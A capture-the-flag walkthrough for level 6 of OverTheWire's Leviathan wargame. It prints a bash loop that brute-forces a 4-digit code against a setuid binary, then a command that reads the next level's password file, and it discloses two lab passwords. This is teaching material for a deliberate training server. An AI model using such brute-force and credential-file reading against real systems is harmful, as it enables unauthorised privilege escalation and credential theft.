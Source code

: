 # Leviathan Level 6 → Level 7
There is no information for this level, intentionally.

##  Solution
```
┌──(kali㉿kali)-[~]
└─$ ssh -p 2223 leviathan6@leviathan.labs.overthewire.org
```
This is a OverTheWire game server. More information on http://www.overthewire.org/wargames

```
leviathan6@leviathan.labs.overthewire.org's password: UgaoFee4li
```
Linux leviathan 4.18.12 x86_64 GNU/Linux
```              
      ,----..            ,----,          .---. 
     /   /   \         ,/   .`|         /. ./|
    /   .     :      ,`   .'  :     .--'.  ' ;
   .   /   ;.  \   ;    ;     /    /__./ \ : |
  .   ;   /  ` ; .'___,/    ,' .--'.  '   \' .
  ;   |  ; \ ; | |    :     | /___/ \ |    ' ' 
  |   :  | ; | ' ;    |.';  ; ;   \  \;      : 
  .   |  ' ' ' : `----'  |  |  \   ;  `      |
  '   ;  \; /  |     '   :  ;   .   \    .\  ; 
   \   \  ',  /      |   |  '    \   \   ' \ |
    ;   :    /       '   :  |     :   '  |--"  
     \   \ .'        ;   |.'       \   \ ;     
  www. `---` ver     '---' he       '---" ire.org     
```               
              
Welcome to OverTheWire!

If you find any problems, please report them to Steven or morla on
irc.overthewire.org.

--[ Playing the games ]--

  This machine might hold several wargames. 
  If you are playing "somegame", then:

    * USERNAMES are somegame0, somegame1, ...
    * Most LEVELS are stored in /somegame/.
    * PASSWORDS for each level are stored in /etc/somegame_pass/.

  Write-access to homedirectories is disabled. It is advised to create a
  working directory with a hard-to-guess name in /tmp/.  You can use the
  command "mktemp -d" in order to generate a random and hard to guess
  directory in /tmp/.  Read-access to both /tmp/ and /proc/ is disabled
  so that users can not snoop on eachother. Files and directories with 
  easily guessable or short names will be periodically deleted!

  Please play nice:
      
    * don't leave orphan processes running
    * don't leave exploit-files laying around
    * don't annoy other players
    * don't post passwords or spoilers
    * again, DONT POST SPOILERS! 
      This includes writeups of your solution on your blog or website!

--[ Tips ]--

  This machine has a 64bit processor and many security-features enabled
  by default, although ASLR has been switched off.  The following
  compiler flags might be interesting:

    -m32                    compile for 32bit
    -fno-stack-protector    disable ProPolice
    -Wl,-z,norelro          disable relro 

  In addition, the execstack tool can be used to flag the stack as
  executable on ELF binaries.

  Finally, network-access is limited for most levels by a local
  firewall.

--[ Tools ]--

 For your convenience we have installed a few usefull tools which you can find
 in the following locations:

    * pwndbg (https://github.com/pwndbg/pwndbg) in /usr/local/pwndbg/
    * peda (https://github.com/longld/peda.git) in /usr/local/peda/
    * gdbinit (https://github.com/gdbinit/Gdbinit) in /usr/local/gdbinit/
    * pwntools (https://github.com/Gallopsled/pwntools)
    * radare2 (http://www.radare.org/)
    * checksec.sh (http://www.trapkit.de/tools/checksec.html) in /usr/local/bin/checksec.sh

--[ More information ]--

  For more information regarding individual wargames, visit
  http://www.overthewire.org/wargames/

  For support, questions or comments, contact us through IRC on
  irc.overthewire.org #wargames.

  Enjoy your stay!
```
leviathan6@leviathan:~$ ls -al                                      #list the contents of the homedirectory of leviathan6
total 28
drwxr-xr-x  2 root       root       4096 Aug 26  2019 .
drwxr-xr-x 10 root       root       4096 Aug 26  2019 ..
-rw-r--r--  1 root       root        220 May 15  2017 .bash_logout
-rw-r--r--  1 root       root       3526 May 15  2017 .bashrc
-r-sr-x---  1 leviathan7 leviathan6 7452 Aug 26  2019 leviathan6    #there is a setuid file
-rw-r--r--  1 root       root        675 May 15  2017 .profile 

leviathan6@leviathan:~$ ./leviathan6                                #execute the file                     
usage: ./leviathan6 <4 digit code>                                  #it requires a 4 digit code
                                                                    #write a script for a brute force

leviathan6@leviathan:~$ mkdir /tmp/myl6                             #create a directory myl6 under temp

leviathan6@leviathan:~$ cd /tmp/myl6                                #navigate to myl6 directory

leviathan6@leviathan:/tmp/myl6$ vim brute.sh                        #create a file brute.sh and open it using vim editor
```
### Note1: In the vim editor, press i and type the following script. After typing the script, press Esc to enter into command mode and run :wq to save and exit from the editor.                                                                    
```
#!/bin/bash

for a in {0000..9999}                 #generates 4 digit codes from 0000 to 9999
do
~/leviathan6 $a                       #appends this generated code with the leviathan6 file from the homedirectory in every iteration
done
```

Back to the terminal.
```
leviathan6@leviathan:/tmp/myl6$ chmod +x brute.sh                   #provide execute access for the brute.sh file

leviathan6@leviathan:/tmp/myl6$ ./brute.sh                          #execute the file brute.sh

Wrong                                                               
.
.
.
Wrong
sh: 0: getcwd() failed: No such file or directory
sh: 0: getcwd() failed: No such file or directory                   #after sometime, a command prompt ($) will appear

$ whoami                                                            #to know the user
leviathan7

$ cat /etc/leviathan_pass/leviathan7                                #read the password file of leviathan7
ahy7MaeBo9                                                          #leviathan7 password
^C                                                                  #kill the process

leviathan6@leviathan:/tmp/myl6$ exit                                #logout of leviathan.labs.overthewire.org
logout
Connection to leviathan.labs.overthewire.org closed.
```

#### Command-line help text
```
mkdir-  > make directories
cd     -> change the working directory
cat    -> concatenate files and print on the standard output
whoami -> print effective userid


chmod  -> change file mode bits
+x     -> execute mode
```

#### vim text editor
```
vim            -> Open vim
vim <fileName> -> Open file using vim or create and open the file with vim
i              -> Switch to insert mode & Enter some text
Esc            -> Switch back to command mode
:w             -> Save changes to file
:q             -> Quit Vim
```






